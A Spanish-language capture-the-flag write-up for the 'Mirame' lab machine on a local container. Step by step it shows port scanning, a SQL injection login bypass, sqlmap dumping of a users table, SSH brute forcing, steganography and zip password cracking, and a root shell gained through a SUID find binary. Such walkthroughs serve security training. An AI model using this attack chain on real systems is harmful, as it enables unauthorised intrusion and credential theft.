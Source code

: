 
- Tags: #Mirame
---
[Maquina Mirame](https://mega.nz/file/ESlzWRgK#AH1gfCknG0G8uS86qrQTAu_CssdG_2Vidvx0UePPTm0) -> Enlace de descarga al laboratorio
```bash
7z x mirame.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh mirame.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Usamos nuestra herramienta en python
nmap -p- -sS --open --min-rate 5000 -vvv -n -P 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos en el target
extractPorts allPorts # Parseamos la infomacion mas relevante del primer escaneo
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y las versiones.
```

**( 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) )** -> Detectamos un servicio **ssh** expuesto

### Fase Enumeracion Web:
**( 80/tcp open  http    Apache httpd 2.4.61 ((Debian)) )** -> Tenemos un servicio web expuesto:  **( debianSid )**
```bash
whatweb http://172.17.0.2 # Realizamos deteccion de las tecnologias empleadas por la web
nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,txt,css,html,js # Enumeracion de archivos

# Resultado
/index.php            (Status: 200) [Size: 2351]
/page.php             (Status: 200) [Size: 2169]
/auth.php             (Status: 200) [Size: 1852]
```

**( http://172.17.0.2/page.php )** -> Nos lleva a esta pagina en la que podemos consultar el clima por ciudad,
**Nota** --> Probamos de todo tipo de inyecciones, Escape de comandos pero no logramos detectar nada.

**( http://172.17.0.2/index.php )** --> Tenemos un panel de autentificacion el cual es vulnerable a inyeccion SQL basada en tiempo:

```bash
admin' # logramos romper la query SQL provocando el error
admin' or 1=1-- - # Ganamos acceso sin proporcionar password
```

```bash
sqlmap --url http://172.17.0.2/index.php --dbs --form --batch # Lazamos el primer escaneo.

#Resultado
[16:32:32] [INFO] resumed: 'users'
```

```bash
sqlmap --url http://172.17.0.2/index.php --forms -D users --tables --batch # Enumeramos las tablas 

# Resultado
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

```bash
sqlmap --url http://172.17.0.2/index.php --forms -D users -T usuarios --dump --batch # Dumpeamos la bd

# Resultado
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+
```

**Nota** -> Crearemos un archivo **( users.txt )** que contenga los nombres de usuario para poder aplicar fuerza bruta por ssh.
```bash
admin     
lucas     
agustin   
directorio
```

**Nota** -> El resultado nos indica que no existe ningun usuario valido para los diccionarios que aplicamos
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt 172.17.0.2 # Aplicamos fuerza bruta con Nmap, En caso de que no encontremos nada usaremos Hydra
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f -t 64 ssh://172.17.0.2 # Aplicamos fuerza bruta con hydra
```

```bash
gobuster dir -u http://172.17.0.2/ -w users.txt -x html,css,js,txt,py,php,php.back # Aplicamos fuzzing con los nombres de usuario pero no obtuvimos nada
```

```bash
gobuster dir -u http://172.17.0.2/ -w passwords.txt -x html,css,js,txt,py,php,php.back # Aplicamos fuzzing con las passwords de los usuarios.

# Resultado
/directoriotravieso   (Status: 301) [Size: 321] [--> http://172.17.0.2/directoriotravieso/] # Tenemos un nuevo directorio
```

```bash
http://172.17.0.2/directoriotravieso/miramebien.jpg # Nos descargaremos esta imagen para analizarla.

binwalk miramebien.jpg # Buscamos cabeceras o archivos incrustados.
strings miramebien.jpg # No obtuvimos cadenas legibles
exiftool miramebien.jpg # En los metadatos no encontramos nada.
```

```bash
steghide info miramebien.jpg # No reporta nada, Ya que necesitamos el passphrase para obtener la info

stegseek --crack miramebien.jpg # Aplicamos fuerza bruta para obtener el passphrase
# Resultado
[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
```

```bash
steghide extract -sf miramebien.jpg # Ingresamos el passphrase ( chocolate )

# Resultado
anot� los datos extra�dos e/"ocultito.zip"
```

```bash
7z x ocultito.zip # Para descomprimir y obtener el archivo nos pide una password que no sabemos, Asi que tendremos que aplicar fuerza bruta.
```

```bash
zip2john ocultito.zip > archivo_oculto
john --wordlist=/usr/share/wordlists/rockyou.txt archivo_oculto # Aplicamos fuerza bruta

stupid1          (ocultito.zip/secret.txt) # Resultado.
```

```bash
7z x ocultito.zip # Ingresamos la password: ( stupid1 )
secret.txt # Resultado obtenido
```

```bas
cat secret.txt

carlos:carlitos # Tenemos un potencial usuario que intentaremos usar en ssh
```

### Fase Instrusion:
```bash
ssh-keygen -R 172.17.0.2 && ssh carlos@172.17.0.2 # Colocamos de password: ( carlitos )
```

### Fase Escalada Privilegios:
```bash
find / -perm -4000 2>/dev/null # Tenemos un binario potencial para elevar privilegios
```

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit # Ahora obtenemos una bash como root.
```

```bash
bash-5.2# whoami
root
```